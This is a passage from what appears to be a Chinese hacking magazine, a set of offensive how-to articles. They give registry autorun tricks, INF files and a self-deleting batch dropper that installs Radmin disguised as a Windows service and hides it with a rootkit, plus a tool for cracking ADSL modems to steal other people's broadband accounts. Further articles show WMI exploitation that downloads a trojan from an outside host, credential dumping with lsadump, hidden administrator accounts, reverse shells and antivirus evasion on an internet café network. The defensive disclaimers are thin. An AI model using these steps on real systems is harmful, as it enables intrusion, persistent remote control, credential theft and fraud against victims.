`@\\.\c:\aux\1.exe`

保存之后就可以了。现在，只要点击命令提示符，就会启动 1.exe 文件！

要想删除 aux 文件夹，可以先删除里面的文件，然后再用 `rd \\.\c:\aux\` 命令删除 aux 文件夹即可。为了防范木马或其他恶意程序会利用这种方法，大家应该养成经常检查该注册表项的习惯，有备无患哦！

#### 第二种方法

还是利用注册表。方法是：打开注册表编辑器，展开注册表到 `HKEY_CURRENT_USER\Software\Microsoft\Windows NT\CurrentVersion\Windows` 项，新建一个名为“load”的字符串值，把它的键值设定为要自动运行的程序的路径名即可。注意要使用文件的短文件名，即“C:\Program Files”应该写为“C:\Progra~1”，且自动运行程序的后面不能带有参数。如果仅仅想对当前用户有效，则改为在注册表：`HKEY_USERS\用户ID\Software\Microsoft\Windows NT\CurrentVersion\Windows` 新建“load”字符串值及相应键值。

用这种方法加载的程序，在著名的 Windows 系统优化软件“Windows 优化大师”的“开机速度优化”中看不到有程序被加载运行，隐蔽性很好。如果被恶意程序或木马所利用，则对我们的威胁甚大！所以建议大家以后也要注意注册表的这个地方，小心些总没有错。要说明的是本方法只对 Windows 2000/XP/2003 有效，对 Windows 9X 用户无效。

### 终极菜鸟

#### 魔女の条件

Radmin 一直是深受广大黑友喜爱的一款宝马良驹，电脑权限的争夺战一直都在浩瀚无边的网络世界内悄悄地进行着。我们这些菜鸟们，生存在这个由计算机的二进制代码组建的网络“无间地狱”中，就难免要中招。俗话说，害人之心不可有，防人之心不可无。我们学习黑客技术的目标就是从根本上了解黑客入侵的技巧和原理，要想打败敌人必须“知己知彼，百战不殆”，这样才能做到有的放矢，矢无虚发。所以，这次本章揭秘就 Radmin 的“攻击”和“防御”方面双管齐下，在攻与防的对立统一中寻求突破。

### 小知识：XP 的简单进程管理命令介绍

TASKLIST 可得到本地和远程 XP 进程的“图像名、PID、会话名、会话节、内存使用”的命令，再用 TASKKILL 结束进程。

```text
TASKLIST

语法：TASKLIST [/S system [/U username [/P [password]]]] [/M [module]] [/SVC] [/V] [/FI filter] [/FO format] [/NH]
描述：这个命令行工具显示应用程序和本地或远程系统上运行的相关任务/进程的列表。

TASKKILL

语法：TASKKILL [/S system [/U username [/P [password]]]] { [/FI filter] [/PID processid | /IM imagename] } [/F] [/T]
描述：这个命令行工具可用来结束至少一个进程。可以根据进程 id 或图像名来结束进程。
```

#### 一、查缺补漏

在以前《狙击 489 肉鸡》的文章中，偶曾经提过修改过的 Radmin 密码能够立即生效，但是修改的端口需要重新启动电脑才能实现。这样就总坏了我们一些眼巴巴看着、“心急吃不了热豆腐”的黑友们。这里我提供一个小技巧，避免忍不住的黑友强制重启别人的电脑，嘿嘿~~

要使自己的木马配置信息能够立竿见影地实现（配置信息修改的根源在注册表的修改上），虽说按 F5 键刷新可以使一部分修改立即生效，但大多数情况下还需要重新启动计算机才能实现设置和功能上的修改。重启电脑可是一个“长夜漫漫的等待”啊！

如果你不怕管理员发现，大可以让他马上重启，那就算你够胆量了。有没有什么妙招能够使修改立即生效呢？其实只需要重新运行 Windows 中的 Explorer 即可。


在图形界面下按下“Ctrl+Alt+Delete”组合快捷键，打开“任务管理器”，单击“进程”标签，找到并单击其中的“Explorer.exe”，点击右下方的“结束进程”按钮（图1）。随后，系统并不会发生什么变化。下面要做的就是重新运行程序“Explorer.exe”，单击“应用程序”选项卡，单击右下方的“新任务”按钮。在打开的“创建新任务”对话框中输入“Explorer.exe”，并按下“确定”按钮即可。以上的操作可以让我们的注册表修改立竿见影，是您一定要掌握的妙招啊！

在命令提示符下，利用命令行结束进程命令“TASKKILL /F /IM Explorer.exe”同样可以起到“结束进程”的特效。大家都知道 Windows 系统以漏洞多、容易产生错误著称，Windows XP 系统下由于用户操作不当或系统资源不够，经常产生强行关闭“Explorer.exe”的效果，堪称是 Windows 98 系统下“蓝屏”的延续，不容易引起管理员的疑心。这样就比强行重启系统安全多了，安全第一！

#### 二、另辟蹊径

对于一些变态网管配置出的难啃“硬骨头”，屏蔽了注册表写入、修改了注册表的默认存放位置的难题，我们自然有游刃而解的方法。每台电脑除了要安装系统，就是安装软件了吧？INF 安装文件是安装系统和软件都必须使用的一个重要文件，管理员再变态也不会把自己实现“闭关锁国”政策吧，如果连这个都禁止了，我看他还做什么服务器啊？

有的朋友的想法是把注册表中的内容放到批处理文件中，然后在肉鸡上执行生成 .REG 文件。其实这样还是治标不治本，和把 .REG 放在自解压文件中没有什么本质区别，不过是自欺欺人罢了！把注册表文件导出放在自解压包中，但是 .REG 文件中的路径都是静态的，一旦写好，就不会随着系统的变化而变化；而在 .INF 文件中，可以随变更注册线路，具有可以跟踪安装程序所需要的路径变化。.INF 文件比 .REG 文件还方便的另一个最优越特点就是，能够在时间上立竿见影地对注册表添加和修改。这样就为我们作战节省了很多宝贵时间。

现在偶就介绍下最新的 Radmin 服务端高级配置。首先来说服务。如果想启动或停止服务，用 net 命令就可以；但想增加或删除服务，需要用 SC、instsrv.exe、xnet.exe 等工具。而这些工具系统没有自带（XP 和 2003 自带 SC）。导入注册表虽然可以，但效果不好，这里我们请 INF 文件出马。

偶配置 Radmin 自解压包安装的思路，还是先假设已经被安装了 Radmin 服务，使用 INF 安装文件就需要一段代码就能实现，建立 Delradmin.inf 文件，代码如下：

```ini
[Version]
Signature="$WINDOWS NT$"
[DefaultInstall.Services]
DelService=r_server
```

接下来的例子用 Radmin 的服务虚构出一个“系统服务”，建立 `Radmin.inf` 文件，代码如下：

```ini
[Version]
Signature="$WINDOWS NT$"
[DefaultInstall.Services]
AddService=Wmipd,,My_AddService_Name
[My_AddService_Name]
DisplayName=Windows Management Instrumentation Player Drivers
Description=为 Windows Media Player 提供加载进程及为其他的修改媒体、驱动程序和库提供基底安全协议服务。
ServiceType=0x10
StartType=2
ErrorControl=0
ServiceBinary=%SYSTEMROOT%\system32\drivers\wmsrv.exe
```

对于像这类搞黑客、搞破解、搞编程、搞汉化的人来说，安装程序的文件大小直接决定了程序的简捷易行、传输便捷等因素。使用 INF 文件删除和添加服务，能减少额外程序依赖，使木马更小更精简。

```bat
rundll32.exe setupapi,InstallHinfSection DefaultInstall 128 C:\Path\Radmin.inf
```

### 说明：

- 最后四项分别是：
  - 服务类型：`0x10` 为独立进程服务，`0x20` 为共享进程服务（如 svchost）
  - 启动类型：`0` 系统引导加载，`1` OS 初始化时加载，`2` 由 SCM 自动启动，`3` 手动启动，`4` 禁用
  - 错误控制：`0` 忽略，`1` 继续并警告，`2` 切换到 LastKnownGood，`3` 蓝屏
  - 服务程序位置：`%11%`、`%10%`、`%12%` 等目录变量
- 除配置中的六个项目外，还有 LoadOrderGroup、Dependencies 等。
- `Wmipd` 后有两个逗号，中间省略了一个不常用参数 flags。

### 用 inf 文件访问注册表

上面对注册表的三个操作，也可以用下面这个 `.inf` 文件来实现：

```ini
[Version]
Signature="$WINDOWS NT$"
[DefaultInstall]
AddReg=My_AddReg_Name
DelReg=My_DelReg_Name
[My_AddReg_Name]
...
```

```ini
HKLM,SOFTWARE\Microsoft\TelnetServer\V1.0,TelnetPort,0x00010001,2323
HKLM,SOFTWARE\Microsoft\TelnetServer\V1.0,NTLM,0x00010001,1
[My_DelReg_Name]
HKLM,SYSTEM\CurrentControlSet\Services\Serv-U
HKLM,SOFTWARE\Microsoft\Windows\CurrentVersion\Run,KAVRun
...
rundll32.exe setupapi,InstallHinfSection DefaultInstall 128 c:\path\reg.inf
```

### 说明：

- `[Version]` 和 `[DefaultInstall]` 是必须的，`AddReg` 与 `DelReg` 至少要有一个；`0x00010001` 表示 `REG_DWORD`，`0x00000000`（或省略）表示 `REG_SZ`，`0x00020000` 表示 `REG_EXPAND_SZ`。
- `InstallHinfSection` 区分大小写，`setupapi` 与其间只有一个逗号；`128` 表示给定路径，最后一个参数应为 inf 文件全路径。
- inf 文件中的项目一般不区分大小写。

### .INF 文件的生成方法

可以直接手工写 INF 文件；若已有 REG 文件，可先将部分路径修正，再借助工具转换为 INF。涉及文件操作时通常仍需手工调整。

```text
命令为：Reg2Inf [switches] [SourceFile.Reg] [DestFile.Inf]
```

生成名称为 `radminreg.inf` 的 INF 安装文件：

```ini
[Version]
Signature="$CHICAGO$"
Provider=KaJa@eastday.com 2002

[DefaultInstall]
DelReg=radmin_DelReg
AddReg=radmin_AddReg

[radmin_DelReg]
...
[radmin_AddReg]
HKLM,"...",...
```

```ini
hklm,"admin$-SRvSP$","FilterIp",1,00,00,00,00
hklm,"admin$-SRvSP$","DisableTrayIcon",1,01,00,00,00
hklm,"admin$-SRvSP$","AutoAllow",1,00,00,00,00
hklm,"admin$-SRvSP$","KickUser",0,00,00,00,00
hklm,"admin$-SRvSP$","EnableEventLog",1,00,00,00,00

[Strings]
radmin1=...\RAdmin
radmin2=...\RAdmin\v2.0
radmin3=...\RAdmin\v2.0\Server
radmin4=...\RAdmin\v2.0\Server\iplist
radmin5=...\RAdmin\v2.0\Server\Parameters
```

思路已经很清晰了，下面偶就配置下 Radmin 自解压文件吧。

- 编写一个批处理文件，命名为 `first.bat`

```bat
@echo off
r_server.exe /stop
```

这样做是假定肉鸡上已经由黑友安装过 Radmin 服务，杀无赦。

- 接下来偶就删除掉 Radmin 服务，添加我的“系统服务”引导木马自启动。编写一个批处理文件，命名 `shell.bat`。

```bat
@echo off
@rundll32.exe setupapi,InstallHinfSection DefaultInstall 128 %CD%\Delradmin.inf

@del %systemroot%\system32\r_server.exe
@del %systemroot%\system32\radmin1.dll
@del %systemroot%\system32\raddrv.dll

@md %SYSTEMROOT%\system32\driver
@if /i "%CD%"=="%SYSTEMROOT%\system32\driver" goto END
@copy wmpd.exe %SYSTEMROOT%\system32\driver
@copy admin1.dll %SYSTEMROOT%\system32\driver
@copy raddrv.dll %SYSTEMROOT%\system32\driver
@copy root.exe %SYSTEMROOT%\system32\driver
@del wmpd.exe
@del admin1.dll
@del raddrv.dll
@del root.exe

@cd %SYSTEMROOT%\system32\driver
@WMSrv.exe /install /silence
@rundll32.exe setupapi,InstallHinfSection DefaultInstall 128 %CD%\radminreg.inf
@rundll32.exe setupapi,InstallHinfSection DefaultInstall 128 %CD%\Radmin.inf
@root.exe /i
@del Delradmin.inf
@del radminreg.inf
@del Radmin.inf
:END
@del %0
```

注意：批处理最后一行没有回车符，否则会因为正在运行而无法删除自己。

说明：Wmpd.exe 是 r_server.exe 修改后的名称。root.exe 是 AFX Rootkit 2005 工具程序；为达到隐藏设定目标不被列出，该程序可隐藏：(1) 进程；(2) 句柄；(3) 模块；(4) 文件及目录；(5) 注册表键值；(6) 服务；(7) TCP/UDP 端口；(8) 系统任务栏图标。

首先，我们在系统目录 `%SYSTEMROOT%\system32` 下新建个 `driver` 目录（和 drivers 很像，不容易引起管理员注意），自解压程序把文件都释放到 driver 目录下。Radmin 安装启动后，我们可以使用命令 `netstat -an` 查看本机开放的端口（图2）。（偶配置的 Radmin 服务程序端口为：1985，密码为：hackbase）


图2

我们在 CMD 下输入下列命令 `Start C:\WINNT\System32\Driver\root.exe /i`。这样 driver 目录及其中文件和运行文件的进程、端口就会全部隐藏了，这样把木马程序处理后，对非常有经验的网管也查杀不了偶的小马了（图3）。但是偶的小马还是能够偷偷地在肉鸡中任意横行地运行（图4），够阴的吧\~\~\~


图3


图4

目前杀毒软件已经把 AFX Rootkit 2005 列为病毒查杀了，偶把程序源代码公开于打过论坛给大家。如果你有心，可以自己参考代码做下防查杀病毒处理。

4899 肉鸡。此外，再补充一句，有的朋友可能发现了自解压文件运行批处理文件会闪出一个黑漆漆的命令行窗口。解决的方法有 3 种：

- 平时我们喜欢把自解压文件模块设置为默认的 Default.SFX（Windows 图形界面 RAR），作为后门安装较快；但某些命令行控制下不能运行。可改用 Dos.SFX（DOS RAR 自解压模块）以避免问题。
- 也可用脚本语言实现隐藏运行，如 vbs、js 脚本。
- 可把 `.bat` 批处理转成 `.exe`，如使用 `bat2com.exe`、`com2exe.exe` 等工具。

#### 三、争强好胜

找到一个好肉鸡像吃了顿美味一样，让人兴奋；但来之不易的“天赐美味”肉鸡，不能轻易飞掉。作者引出 Radmin 反弹定位功能，介绍“黑社会 V2.0”中的相关配置方法。

- 静态 IP：适用于拥有固定公网 IP 的用户。
- 动态域名：适用于无固定 IP，通过域名服务更新到最新地址。
- 网页文件 IP 更新：适用于无固定 IP 且不想安装动态域名客户端，可用网页空间文件记录 IP。

示例中选择“网页文件”自动更新 IP，填写 `http://shell520.911.net/ip.txt`，并生成服务端；随后在 Radmin 端配置 FTP 更新信息，实现远程定位连接。


图5

继续说明：连接 4899 肉鸡时先把本机 IP 解析到网页空间，在“FTP 更新 IP”中填写信息并执行更新，提示“更新 IP 完毕”后再在主控端导入端口，完成统一管理。


图6


图7

右栏正文讨论：随着安全意识提高，扫描得到肉鸡变难；若目标使用 Radmin 且端口开放，仍可能被利用。进一步提到通过“4899 扫描器”与口令破解思路，以及 MD5-Hash 等加密口令带来的难度。

作者提及国外工具支持“穷举模式”“字典模式”“特定模式”爆破 Radmin 密码，并表示已进行本地化整理供学习研究，同时强调攻防对立统一，既要会攻击也要会防御。

结尾提示可参考相关文章《破灭 Radmin 密码不败的神话》，从穷举、字典、特定模式三方面进一步学习。

### 用肉鸡建立自己的 FTP 服务器

Cosmosli

前几天，在网上偶然弄到一台开了 3389 远程桌面协助的肉鸡，进去看了看原来是传奇私服的服务器，操作系统是 Win2003，80G 的硬盘就装了个传奇服务器和 QQ，真是浪费啊。考虑到私服服务器会长时间开着，所以决定在肉鸡上建个 FTP 服务器，充分利用资源嘛。

经过在网上一番搜索，终于找到了 slimftp 这个好东东。首先，它身材小巧，而且不需要安装，在 console 下就可以运行，不会弹出窗口。提供了标准的上传、下载功能，而且可以更改服务端口、设置用户权限等。该软件可到官方网站下载：http://www.whitsoftdev.com/slimftpd/，如图1。

首先，打开远程桌面连接，登录到肉鸡上，打开 IE 下载 slimftp。为隐蔽起见把它放在 `c:\windows\ftp`。下载并解压后有两个可执行文件，先打开 `adminftp.exe` 对 FTP 服务进行设置，`server port` 为 FTP 端口，默认 21，这里改成 2121。然后在 `user` 选项点击 `new` 添加新用户 `user1`，再用 `SetPassword` 设置密码，如图3。

接下来在 `Permissions` 里添加目录 `c:\windows\ftp` 作为用户主目录。再点 `new` 输入 FTP 虚拟目录（可留空），用户即登录到 FTP 根目录。虚拟目录可设置 Read（读）、Write（写）、List（列出）和 Admin（管理）权限。设置完成后执行 `slimftp2.exe` 即可，注意该文件运行时不会有提示。

如果 2121 端口被占用或者已经执行了 `slimftp2.exe`，会出现如图5所示错误。为了让肉鸡每次重启后 FTP 服务自动启动，还需要在注册表 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run` 下新建字符串值，内容为 `c:\windows\ftp\slimftp2.exe`。这样 FTP 服务即可自启，如图6。


### 下载发烧者必备的护盘秘技

用上宽带之后，最痛快的是尽情下载；但随之而来的问题就是硬盘容易“受伤”。下面的“秘笈”可以帮你一把……

- **加大磁盘缓存**：运行“Windows 优化大师”，选择“系统性能优化-磁盘缓存优化”，根据内存容量按推荐值调整，最后点击“优化”。
- **调整 FlashGet 的存盘频率**：在 FlashGet 主界面进入“工具→选项→常规”，找到“把数据写入到磁盘中每当接收到”选项，将其调大（如 1000KB），减少频繁写盘。

## 出手不凡的ADSL密码终结者2005

虫虫

近日上网发现一个名为 **ADSL密码终结者2005** 的软件，软件的用意正如其名——破解ADSL用户上网账号和密码。先说下它的工作原理，电信和网通拨号上网用的ADSL猫都具有网页管理功能，管理用户名和密码通常都是默认的……而该软件可通过批量扫描与自动尝试提升破解效率。

破解之前我们要先配置一下。点上方“扫描选项”，在“开始IP”和“结束IP”输入框里输入要扫描的IP段，输入后点击“加入列表”即可自动加入下方列表（可输入多个IP段）。


图2

- ADSL密码终结者现有功能如下：
- 采用多线程扫描，速度较快，可在短时间内扫描大量IP段并测试。
- 自带针对电信/网通常见ADSL设备的默认用户名密码字典，破解率较高。
- 集成较新的全球IP数据库，可按地区筛选并进行针对性扫描。
- 完整的扫描结果管理，扫描出的账号密码可保存并按地区检索。
- 具有扫描历史记录功能，可保存上次扫描范围并继续扫描。
- 在目标设备开启网页管理界面时，可尝试直接读出管理用户名和密码。

是不是已经忍不住要流口水了呢，下面我就详细说下它的使用方法。首先安装ADSL密码终结者，运行后如图1。


图1

假如要扫描某一地区的IP段，可以利用软件自带的IP数据库查询功能。点击“工具”选项卡，选择“地址=>IP段”，在“查询字段”中输入想要查找的地区，然后点“查询”即可列出该地区的详细地址位置。选择相应记录并点击“添加到IP范围列表”即可将结果加入扫描列表（如图4）。


图3


图4

我们再回到“扫描”选项里，会发现下方有个“扫描选项”，这里我对各项解释一下：线程数表示采用多线程扫描，可充分利用硬件和网络资源，但也会增加瞬时流量。线程数越大，扫描速度越快，但会占用更多系统资源；如果机器性能或网络带宽不足，建议减小线程数。

超时：扫描时，程序采用TCP连接，这里可以指定超时值，超时值越大，扫描速度会慢；超时值小，扫描快，但是在网络质量不太好的情况下，可能会漏掉活动主机。

“端口”：通常ADSL猫的默认管理端口是80，如果你想试试扫描别的猫里的ADSL猫，可以在这输入其他端口。

在左边有个“ADSL密码字典”选项，这里收集了一些ADSL猫默认的登录用户名和密码（当ADSL密码终结者扫描到ADSL猫要求输入密码时，如图5，这个软件就会调用字典里的用户名和密码一个一个去试，软件自身带的这个字典，个人感觉总结还是比较全的。当然，你也可以添加自己知道的但是没有收集在里面的用户名和密码，按“用户名=密码”的格式添加到字典中，形成自己的字典，一行一个信息。


图5

现在要扫描的IP段和破解用的字典都设置好了，就可以让它去扫了。点上方第二个“扫描”选项卡，直接点“开始”就行了，如图6。


图6

右下方的窗口显示的是扫描的具体过程，可以发现扫描的速度的确很快。用不了多长时间，便扫到一些采用默认密码的ADSL猫了，并且软件能进一步地破出ADSL用户的上网账号和密码，如图7。


图7

是不是感觉很神奇呢？其实原理很简单，市面上的ADSL猫型号很多，但是大部分都是同一种芯片，所以管理界面都是一样的，对于程序“认识”的芯片，会自动在管理页面中找到要找的信息。只要出现在下方列表中的IP，就是识别出上网账号和密码的机器，那些没自动识别出上网账号和密码的IP，就要手动登录ADSL猫，并查找到上网账号和密码。想必当初利用“盗上网账号和密码QQ币”的小黑们再熟悉不过了，这里我就再简单提下吧。就以图7中IP为61.183.68.173那台机器为例吧，软件只扫描出ADSL猫的登录用户名和密码，而没有识别出上网账号和上网密码，就需要手动检测了。在IE输入61.183.68.173，会弹出用户验证窗口，如图5，这里用户名输入admin，密码输入starnetadsl就进入了。点左边“配置”下的“广域网”，如图8。


图8

可以看到用户名是whcq8，而密码是以星号显示的，不用怕，狂按旁边的空白处按下鼠标右键，选“查看源文件”（注意：不是点IE“查看”下的“源文件”）。稍微拖点HTML，密码慢慢就露出来了，密码就是29878575，如图9（假如你看到那些代码就头晕天书一样，这里有个小技巧，密码前面跟的字符一定是“VALUE=”，利用记事本“查找”（快捷键：Ctrl+F）功能来查找“VALUE=”，可能会搜出好几项，再用排除法就能断定哪个是密码了）。


图9

ADSL密码终结者自身带一个很贴心的功能就是“密码管理”，如图10，所有破解的账号和密码都将自动保存在数据库中，并且附加上该账号所在省市名称，同一账号在不同时间被扫描两次，不会重复保存。


图10

相信利用此软件大家都能获得大批ADSL上网账户和密码，有人会问获取这些有什么用呢？我下面简单说下。

#### 1. 免费上网

前提条件是同一个地区，一般以市级为单位，不信在家输入你当地朋友的上网账号应该也能拨上去吧。我们破解出当地的ADSL账号就可以用别人的号拨号上网了。拨号又分为两种情况：一种是同一时间多台机器都能拨上去（我们地区以前就这样，不过后来升级了），这样就太爽了，直接用别人号拨号上网就可以了，没有任何影响，不过现在这样的地区似乎是越来越少了；第二种也就是一个号在同一时刻只能一台机器用，假如你用盗取的ADSL上网账号拨号上网，而这时账号的原配户主拨号就拨不上去了。这里我给大家讲一个小技巧：一般宽带安装部门都会给用户一个网址，用来修改上网密码或其他信息……我们主要的是知道他的上网时间记录，如图11，通过了解对方作息规律达到免费上网的目的……

利用自己的用户资源、网络资源、应用支撑平台资源、营销网络、客户服务和宣传渠道等资源……用户可以十分方便地在各类SP网站上，使用自己的163或宽带上网账号和密码完成很多收费服务的缴费过程……如图12。


#### 2. 网上消费

像移动运营商的手机代收费业务一样，目前中国电信也充分……


不过现在对充值要求有所提高……先用ID（比如3389登录）再进行充值。另外，账号每月默认为有消费最大限额（信用额度）……如图13。


好了，文章暂且就写到这，本文意在奉劝没有修改ADSL默认密码的用户尽快修改默认密码，提高自己的安全意识，以避免额外的经济损失。

> （文本涉及的相关工具：ADSL密码终结者2005，光盘中有收录。）


## 傻瓜黑客

我们现在开始了。要入侵首先要清楚哪台电脑有漏洞，这里给大家介绍一款小巧的软件——Ntscan……不仅可以扫IPC$漏洞，还可以扫WMI漏洞，如图1。

在使用前需要设置一下，以提高扫描速度。在软件目录下有两个文件：NT_pass.dic 和 NT_user.dic……

当人们将网络安全看得越来越重要，当操作系统改朝换代，当IPC、RPC都不再管用……WMI服务作为系统的重要服务，默认是开放的，所以让我们这些菜鸟有机可乘了……根据几日来的测试，发现打了补丁的WIN2000 SP4和WINXP SP1都可以入侵。


NT_user.dic只保留administrator就可以了。打开Ntscan，填上要扫描的IP段，thread（线程）设置为适合你网络速度的值，这里设为100。接着点WMIscan，端口填135，然后就可以start了。有漏洞的已经出来几个了，如图2。


图2

我们随便选一台，然后打开另一个软件——Recton2.5。使用这个软件可以利用WMI漏洞开3389、telnet、远程执行命令等。填上目标IP及端口，选择远程执行命令，在CMD中输入 `ftp -i zshack.softhome.cn get xp.exe`，其中xp.exe是木马程序，这样稍微过了30秒，木马就上传成功了，如图3。


图3

再执行命令让木马运行，这回只要输入上传的木马名就可以了。我就是输入xp.exe，OK，又执行成功了，我们的肉鸡也上线了。

有人会问有了肉鸡后干吗？开代理、刷QB随便你啦，咱们就用它来刷全套QQ服务吧！先要得到肉鸡的ADSL密码，用木马上传lsadump.exe，然后使用木马的远程执行命令功能执行 `lsadump.exe >log.ini`，如图4。


图4

执行成功后生成文件log.ini，打开后可以看到ADSL账号和密码了，如图5。


图5

最后就可以用屏幕监控登录 `http://vnet.qq.com/ok/`（我是在凌晨3点多干的，肉鸡正在挂机，所以才敢用屏幕监控），选择要开通的服务、地区、QQ号和密码，再点“宽带账号体验”，就OK了，如图6。


图6

后面输入ADSL账号什么的就不要我教了吧？呵呵！我现在的这个QQ已经是会员+红钻+黄钻了，如图7。心动吗？那就行动吧！


图7

Ntscan有个缺点：无法判断对方的RPC/DCOM服务是否开启，所以扫出来的肉鸡不一定都可用。另，使用过Recton2.5的都知道这个软件功能强大但不稳定，发生错误就会强制退出。也可以使用Remoxec，功能虽简单但很稳定。

至于要功能还是要稳定性自己取舍吧（鱼和熊掌不可兼得）。最后祝大家肉鸡大丰收哦！

**注：请本文作者与编辑部联系！**（文中涉及的相关工具：Ntscan、Recton2.5、lsadump.exe、PcShare超级终端，光盘中有收录。）

## 傻瓜黑客

### 超酷的超级网络邻居

扫描共享资源为黑客入侵常用的方法之一，我一直用Shed共享搜索器扫描共享资源（X档案2003.9有介绍），但自从我发现“超级网络邻居”后，就将Shed彻底放弃了。超级网络邻居不仅可以搜索HTTP共享资源，还可搜索FTP共享（可在“工具”→“选项”→“共享设置”里设置是否搜索HTTP服务、FTP服务、隐藏共享）；不仅可以查出自己所在网段所有机器的计算机名、工作组、MAC地址和共享资源，而且还可以查出Internet上任意IP地址的计算机名、工作组和共享资源。还可以利用数据库自动将查出的主要信息存储起来，以便下次查看。另外还可以进行Ping、Nbtstat等操作。


而Shed除了可以搜索HTTP共享资源外几乎无其他附加功能，因此你赶快把Shed抛弃了吧！下面我们看看IPBook（超级网络邻居）。启动IPBook后，自动测出本机的IP地址、计算机名。图1中221.*.230和221.*.230.173分别是本网段与本机的IP地址范围。

点击“扫描一个网段”按钮，几秒钟之后，在左中部的列表框中显示的就是本网段所有在线机器的详细情况。其中有IP地址、计算机名、工作组、信使名等等。等所有机器情况查完过后，再点击按钮“点验共享资源”，就会查出本网段机器的共享资源，如图2，图中右边显示框中显示的即为共享资源。


要查找其他网段的计算机名、工作组和共享资源，可将IP地址范围改成你想要查的地址范围，我改成了218.*.236与218.*.236.3，然后点击“扫描一个网段”和“点验共享资源”这两个按钮，查出了其他网段的计算机名与共享资源，扫描结果如图3。


双击搜索到的共享资源既可打开共享资源，也可点右键选“映射为本地盘符”将共享资源映射到自己的电脑上，然后就可复制共享资源。另外也可点击“资源管理器”选项，如图4，所有的共享资源显示在左边的显示框中，点击共享资源，共享的文件夹（文件）显示在程序的右边显示框中，选定需要下载的文件，点击程序上面的“下载”箭头，再点击右边的“全部开始下载”按钮，即可开始按顺序下载文件。

图4中我已将“瑞星2005”下载下来，太好了！还是个正版的！除以上功能外还具有短信群发、断点续传、好友等功能。

本软件为共享软件，不注册仅可搜索一个网段内共享资源，其他无功能限制。用户通过注册后，IPBook的“大范围扫描”按钮将被激活，正版用户可通过此项功能同时扫描多个网段内的所有计算机。

另外，需要说明的是由于不同地区网通（电信）的限制，不同的地区扫描效果可能不一样，有的地区可能采取了防火墙。我们地区只能搜索本市各区、县的共享资源，其他地市共享资源是无法扫描到的。

（文本涉及的相关工具：“超级网络邻居”，光盘中有收录，也可到 http://zhu_xfcn.nease.net 下载。）


各位黑友，大家好，读了这么多期的黑客X档案，现在我向大家……如果说我可以在家控制网吧的任意一台机器的话，你们会相信吗？大家做得到吗？如果你做得到那么请跳过此文，如果你的答案是否定的，那么就好好地读下去！


## 意外地发现

那是一个天高气爽的日子，我在网吧刚搞定了一台主机，闲着没事，就用网吧的IP用户名和密码（这个可以用findpass或adump得到）做了一个字典，扫描了一下内网，突然发现了一个IP为10.0.2.242的机器，不对呀，网吧只有150多台机器，那这个是什么呢？于是我在本地架设了tftp服务器，然后用recton传了个“神气儿”上去（为什么不用别的呢？这个以后会讲到的），用屏幕监控看了一下，原来是一个监视器服务，如图1。

同一个局域网，所以正向连接一下就行了，接着上传hideadmin这个软件（建立隐藏管理员的，注意用户名里要有$），然后在神气儿的DOS命令里轻轻输入 `net user aaa$ aaa /add`、`net localgroup administrators aaa$ /add`、`hideadmin aaa$`，如图3，这样初级工作就做好了。


呵呵，搞定它的话以后就不用担心网管了，这时一个阴谋在我的心里诞生了，follow me!

## 思路

任何入侵都要有清晰的思路，我的思路是先打开该服务的3389，然后反向连接到我的机器上，再通过这台机器利用局域网用户名和密码相同的缺陷，进一步控制内网的其他机器。废话不说了，看我的！

## 配置木马

先在本地配置了一款新版的神气儿服务端，做了反向连接设置，去掉了特征码（如果还有人不会改特征码的话，可以试试boler这款工具，不断地生成样本，选出不被查杀的就行了，不过我还是觉得自己修改的好用），然后上传到那台机器上，用recton就可以了，先打开tftp，再打开recton，切换到CMD命令输入 `tftp -i myip get server.exe`，再输入 `server.exe` 就可以了，如图2。


## 加固肉鸡

有了上面的工作，这台机器就够我用一段时间的了。下面我们给它开3389，因为我知道，网吧的机器除了给上网者用的以外，一般都不安装还原卡（注：也许作者是太幸运了，现在的网吧可是有许多使用了还原卡的），这样就可以当我们的3389肉鸡了。远程重启一下，再用3389连接器连接一下，多么熟悉！到这里也许有的朋友要问了，这样的3389有什么用呢？只有在内网才能连接。下面我们掌声请出我们的另外一个主角angelshell，这是一个可以让所有程序反向连接的后门，包括3389以及radmin。先在本地配置，如图4。


过程很简单，但是需要一个空间存放自己的IP，自己写一个ini文件，第一行写自己的IP，第二行写自己监听的端口，很简单，选择“采用反向连接”，填好HTTP的地址生成服务端就可以了，然……

## 傻瓜黑客

后把服务端上传到自己的空间里就 OK。这里有两种服务端，dll 和 exe，我建议大家使用 exe 的，比较方便。如果你喜欢用 dll 的话，要这样安装：`rundll32 angel.dll,I`（注意最后那个是大写 I）。接下来的工作就是利用神气儿的 DOS 命令运行 angelshell。

### 远程控制

回到本地机器，打开神气儿客户端，更新一下 IP 地址，稍等一会儿，泡上一杯茶，切换到 DOS 命令。首先在本机打开 cmd，然后用 nc 监听本地端口，再在神气儿的 DOS 命令里启动 angelshell。


```bash
fport 3389 218.27.***.*** 1234
```

看到 shell 里的 fport 没有？也就是端口转发。它可以把远程计算机的任意端口反向映射到本机。比如把肉鸡 3389 端口映射到自己机器，再用终端连接工具连 127.0.0.1 即可建立新的远程桌面连接。

### 超级远程控制

做好了以上工作我们就可以开始远程控制之旅。登录 3389，把工具上传上去（recton、tftp32、radmin 等），在远程机打开 tftp，做成内网 tftp 服务。启动 recton，输入目标 IP、用户名和密码。随后在 cmd 里执行 `tftp -i 192.168.0.242 get server.exe` 等命令。作者建议使用 radmin 进行鼠标键盘控制，稳定且方便。

文中继续描述了利用该方法控制网吧机器、安装 radmin 并进行远程操作的过程，并提醒读者注意网络安全与防护。最后列出相关工具版本（神气儿、Recton、3389 连接器、angelshell 等）。

### 文件夹的加密与破解

王涛

近些天来，我一直寻找一个方便易用的文件夹加密工具，后来找到“心动文件夹”。文章说明其加密效果、适用场景，以及对初学者的参考价值。


文中介绍安装和设置流程：选择要加密的文件夹，勾选密码保护，输入并确认密码；可按需设置文件夹独立性、背景图片和提示信息等选项。

还可以根据需要选择附加设置，不选也不影响加密。以后每次进入该加密文件夹都需输入密码。


若将加密文件夹拷到未安装程序的电脑上，进入后看到的是网页形式的伪装内容而非真实文件。文章随后说明：若要破解，可删除该文件夹中的 desktop 相关配置文件来恢复。


```bash
cd <目标文件夹>
attrib -s -h desktop.ini
dir
del desktop.ini
```

总结：通过在 DOS 下去掉 `desktop.ini` 的系统/隐藏属性并删除文件，可使“加密”文件夹恢复到初始状态。

## 利用WMA文件尾巴网页木马啦

天涯寂寞

